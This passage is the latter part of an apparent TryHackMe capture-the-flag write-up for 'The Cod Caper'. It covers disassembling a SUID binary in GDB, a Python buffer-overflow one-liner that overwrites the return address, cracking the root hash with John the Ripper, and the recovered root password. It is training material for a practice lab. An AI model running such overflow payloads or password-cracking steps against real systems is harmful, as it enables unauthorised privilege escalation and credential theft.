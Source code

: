 ### 4. Manual Binary Exploitation

Analyze with GDB:

```bash
gdb /opt/secret/root
disassemble shell
```
![binary_disassemble.png](binary_disassemble.png)

Exploit:

```bash
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```
![exploit_the_binary.png](exploit_the_binary.png)

---

### 5. Root Hash Extraction & Cracking

Copy the root hash value:  
![root_hash_value.png](root_hash_value.png)  
![hash_value.png](hash_value.png)

Crack with John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt root_hash.txt
```
![john_cmd.png](john_cmd.png)

**Root password found:** `love2fish`  
![root_pass.png](root_pass.png)

---

## Summary

- Enumerated and found SSH credentials.
- Logged in and performed local enumeration.
- Discovered and exploited a SUID binary for root access.
- Extracted and cracked the root hash to obtain the final password.

---

> _A compact, step-by-step guide for "The Cod Caper" on TryHackMe — covering enumeration, exploitation, and privilege escalation for root access._


## Room Complete!

<div align="center">
  <img src="completed.png" alt="Completed" width="800"/>
</div>

---

## Happy Hacking!

<div align="center">
  <img src="https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDB3ODg0am45c252cXZiOXhldXZ1aDgzMjYxdXJuaWhkbjh1dzI4ZyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/rMS1sUPhv95f2/giphy.gif" alt="Hacking GIF" width="800"/>
</div>

